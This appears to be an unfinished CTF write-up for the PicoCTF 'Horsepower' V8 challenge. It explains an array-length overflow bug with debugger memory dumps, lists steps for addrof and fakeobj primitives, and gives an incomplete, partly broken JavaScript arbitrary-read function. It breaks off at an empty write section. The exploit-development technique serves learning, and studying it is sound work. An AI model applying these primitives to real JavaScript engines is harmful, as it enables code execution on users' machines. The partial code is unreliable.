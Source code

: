 ```yaml
---
layout: post
title: Basics of JavaScript engine exploitation
date: 2021-06-06
permalink: /:title/
tags: [javascript, exploitation]
share: true
published: true
---
```


# PicoCTF Horsepower ~340p

Lets just create an array

```text
d8> var a = [1.1, 1.2]
undefined
```

Lets inspect it

```text
d8> %DebugPrint(a)
DebugPrint: 0x9ab08084ed9: [JSArray]
- map: 0x09ab081c39f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
- prototype: 0x09ab0818ab61 <JSArray[0]>
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
- length: 2
- properties: 0x09ab0804222d <FixedArray[0]>
- All own properties (excluding elements): {
  0x9ab080446d1: [String] in ReadOnlySpace: #length: 0x09ab0810215d <AccessorInfo> (const accessor descriptor), location: descriptor
}
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> {
         0: 1.1
         1: 1.2
}
0x9ab081c39f1: [Map]
- type: JS_ARRAY_TYPE
- instance size: 16
- inobject properties: 0
- elements kind: PACKED_DOUBLE_ELEMENTS
- unused property fields: 0
- enum length: invalid
- back pointer: 0x09ab081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
- prototype_validity cell: 0x09ab08102405 <Cell value= 1>
- instance descriptors #1: 0x09ab0818b031 <DescriptorArray[1]>
- transitions #1: 0x09ab0818b07d <TransitionArray[4]>Transition array #1:
   0x09ab08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x09ab081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

- prototype: 0x09ab0818ab61 <JSArray[0]>
- constructor: 0x09ab0818a8f1 <JSFunction Array (sfi = 0x9ab0810ac31)>
- dependent code: 0x09ab080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
- construction counter: 0

[1.1, 1.2]
```

The patch provided with the challenge adds a builtin function to arrays,
this function requires a parameter that is used to change .legth

```text
d8> a.setHorsepower()
Improper attempt to set horsepower
[1.1, 1.2]
d8> a.setHorsepower(1)
[1.1]
d8> console.log(a)
1.1
```

As we've seen, this effectively changes .length. a's address is 0x9ab08084ed9.
Remove -1 because of pointer tagging

We can confirm what %DebugPrint()

Map: 0x0804222d081c39f1
Elements: 0x000000c808084ec1

```text
(gdb) x/4gx 0x9ab08084ed9-1
0x9ab08084ed8:	0x0804222d081c39f1	0x000000c808084ec1
0x9ab08084ee8:	0x6393ddae080425a9	0x7566280a00000adc
```

This is the elements array. Being an array, it has its own map at address:
0x0000000408042a99 pointer compression. There is a register that contain
the base address for *every* heap object utilised (0x09ab08xxxxxx). This
area is the lowest memory address in the engine.

```text
(gdb) x/4gx 0x09ab08084ec1-1
0x9ab08084ec0:	0x0000000408042a99	0x3ff199999999999a
0x9ab08084ed0:	0x3ff3333333333333	0x0804222d081c39f1
(gdb)
```

The addresses look as follow

  0x0000000408042a99: elements' array Map
  0x3ff199999999999a: 1.1
  0x3ff3333333333333: 1.2
  0x0804222d081c39f1: a's Map address

The challenge is pretty straightforward, we'll just skip the patch and focus
on the relevant part. For clarity, we can inspect the memory and see the
elements array being allocated before `a`

```text
(gdb) x/8gx 0x1b8e08084ed9-1
0x1b8e08084ed8: 0x0000000408042a99      0x3ff199999999999a
0x1b8e08084ee8: 0x3ff3333333333333  |-- 0x0804222d081c39f1
0x1b8e08084ef8: 0x0000000408084ed9      0x8b5af746080425a9
0x1b8e08084f08: 0x7566280a00000adc --|  0x29286e6f6974636e
(gdb) x/4gx 0x1b8e08084ef1-1
0x1b8e08084ef0: 0x0804222d081c39f1      0x0000000408084ed9
0x1b8e08084f00: 0x8b5af746080425a9      0x7566280a00000adc
```

```text
+++ b/src/objects/js-array.tq
@@ -28,6 +28,9 @@ extern class JSArray extends JSObject {
   macro IsEmpty(): bool {
     return this.length == 0;
   }
+  macro SetLength(l: Smi) {
+    this.length = l;
+  }
   length: Number;
 }
```

We can arbitrarly overflow any array. Given this, we just have to overwrite
a's Map with an array of our own and proceed in getting code execution

%DebugPrint(a) returns:

```text
[...]
0x1b8e081c39f1: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1b8e081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x1b8e08102405 <Cell value= 1>
 - instance descriptors #1: 0x1b8e0818b031 <DescriptorArray[1]>
 - transitions #1: 0x1b8e0818b07d <TransitionArray[4]>Transition array #1:
     0x1b8e08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x1b8e081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x1b8e0818ab61 <JSArray[0]>
 - constructor: 0x1b8e0818a8f1 <JSFunction Array (sfi = 0x1b8e0810ac31)>
 - dependent code: 0x1b8e080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```


Lets inspect a's Map memory

```text
(gdb) x/8gx 0x1b8e081c39f1-1
0x1b8e081c39f0: 0x1604040408042119      0x0a0007ff2100043d
0x1b8e081c3a00: 0x081c39c90818ab61      0x080421b90818b031
0x1b8e081c3a10: 0x0818b07d08102405      0x1604040408042119
0x1b8e081c3a20: 0x0a0007ff2900043d      0x081c39f10818ab61
```


### addrof

a primitive that lets us get the memory address of an object as float value

---

1. get a float array's Map
2. get a obj array's Map
3. place an obj in the obj array
    a. obj array now has a memory address at idx = 0
4. swap the two Maps
5. now obj array treats value at idx = 0 as a float number. As such objArr[0]
   returns a float value and not an obj
6. swap back the two Maps
7. return the obj

### fakeobj

a primitive that lets us write the memory address of a non-existent ("fake") object as float value

---



1. get a float array's Map
2. get a obj array's Map
3. write a float in the float array
    a. float array now has a float value at idx = 0
4. swap the two Maps
5. now float array treats value at idx = 0 as a memory address. As such floatArr[0]
   returns an obj and not a float value
6. swap back the two Maps
7. return the obj (which return the memory contents pointed to by the provided address)


### Building arbitrary R/W 

# TODO

- implement functions to convert from integer to float
  - int must use the entire 64 bit space
- implement functions to print as hex values

### Read

Create an array that will be later disguised as a Map for the array in which we will effectively read from and write to

```javascript
function _read(addr) {
  let a = [1.1, 1.2, 1.3, 1.4]
  a.setHorsepower(5)
  let floatMap = a[5]

  let fakeArray = [floatMap, fakeOutOfLine, fakeElementsPtr, fakeProp]

  // get the memory address of fakeArray and read its memory as if it were an object and return a pointer to it
  let ptrFakeArray = fakeObj(addrOf(fakeArray - 0x20n))

  // now go back to fakeArray and change its elements pointer to the memory address
  // to be read (0xffffffff is a random value
  fakeArray[2] = addr

  // now read the value by accessing the object as if it were an array and thus treating its values as floats and
  // not as memory addresses
  return ptrFakeArray[0]
}
```

### Write



Past the end of element's arrays in v8 there's the Map address of the object 
they refer to. Why is that the case ? I can't seem to find anything about it


